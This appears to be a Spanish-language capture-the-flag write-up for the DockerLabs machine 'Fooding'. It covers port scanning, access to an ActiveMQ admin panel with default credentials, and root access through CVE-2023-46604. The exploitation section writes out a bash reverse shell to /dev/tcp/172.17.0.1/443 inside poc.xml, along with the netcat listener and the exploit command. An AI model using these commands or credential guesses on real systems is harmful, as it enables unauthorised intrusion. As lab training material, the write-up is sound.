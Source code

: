 - **Nombre de la Máquina:** Fooding
- **Sistema Operativo**: Linux
- **Dificultad:** Medium
- **Plataforma:** DockerLabs
- **Dirección IP:** 172.17.0.2
- **Vulnerabilidades Explotadas:**
	- ActiveMQ 5.15.25 explot

### Reconocimiento
Comenzamos realizando un escaneo general con nmap sobre la IP de la máquina víctima para ver que puertos tiene abiertos.
```bash
nmap -n -Pn -sS -p- --min-rate 5000  172.17.0.2 -oN escaneo.txt
PORT      STATE SERVICE     REASON
80/tcp    open  http        syn-ack
443/tcp   open  https       syn-ack
1883/tcp  open  mqtt        syn-ack
5672/tcp  open  amqp        syn-ack
8161/tcp  open  patrol-snmp syn-ack
41031/tcp open  unknown     syn-ack
61613/tcp open  unknown     syn-ack
61614/tcp open  unknown     syn-ack
61616/tcp open  unknown     syn-ack
```

Lanzamos un conjunto de scripts predeterminado con nmap para que nos reporte más información sobre los servicios.
```bash
nmap -sCV -p80,443,1883,5672,8161,41031,61613,61614,61616 172.17.0.2 -oN targeted.txt
________________________________________________
PORT      STATE SERVICE    VERSION
80/tcp    open  http       Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Apache2 Debian Default Page: It works
443/tcp   open  ssl/http   Apache httpd 2.4.59 ((Debian))
|_http-title: DockerLabs | Plantilla gratuita Bootstrap 4.3.x
|_http-server-header: Apache/2.4.59 (Debian)
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/Consumer/Topic/#: 
|_    ActiveMQ/Advisory/MasterBroker: 
5672/tcp  open  amqp?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
8161/tcp  open  http       Jetty 9.4.39.v20210325
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Error 401 Unauthorized
41031/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
61614/tcp open  http       Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
|_  Potentially risky methods: TRACE
61616/tcp open  apachemq   ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|_    5.15.15
```

Entramos a la web del puerto 80 y a la del puerto 443 a inspeccionarlas, no encontramos nada interesante. También hemos aplicado Fuzzing sobre ellas pero no he logrado encontrar nada interesante.

Le echamos un vistazo a la web que corre por el puerto 8161
```bash
http://172.17.0.2:8161/index.html
```

Nos pide autenticación, probamos credenciales comunes como pueden ser:

    root:root
    guest:guest
    admin:admin

Logramos acceder con las credenciales admin:admin

En la web encontramos un directorio /admin en uno de los links. Observamos el panel de ActiveMQ, servicio el cual corre por el puerto 61616, como podemos ver en el reporte de nmap.
![[Pasted image 20240707131751.png]]

### Explotación
Tras buscar en internet, encontramos un exploit para la versión 5.15.15 -> Exploit En el exploit tenemos que editar el archivo poc.xml para ejecutar el comando que queremos, en este caso la reverse shell.
```xml
<value>bash</value>
<value>-c</value>
<value>bash -i &gt;&amp; /dev/tcp/172.17.0.1/443 0&gt;&amp;1</value>
```

Este recurso lo compartiremos por el puerto 80 con python:
```bash
sudo python3 -m http.server 80
```

Abriremos el puerto 443 para recibir la reverse shell:
```bash
sudo nc -nlvp 443
```

Ejecutaremos el script, que tomará el poc.xml de nuestro servidor de python. Cabe recalcar que no indicamos el puerto ya que el script usa el puerto por defecto de ActiveMQ que es el 61616.
```bash
python3 CVE-2023-46604-RCE.py -i 172.17.0.2 -u http://172.17.0.1/poc.xml
```

Estamos dentro.
```bash
whoami
----------------
root
```
Y como el usuario que corre el servicio que hemos explotado es root, tenemos los privilegios máximos en el sistema.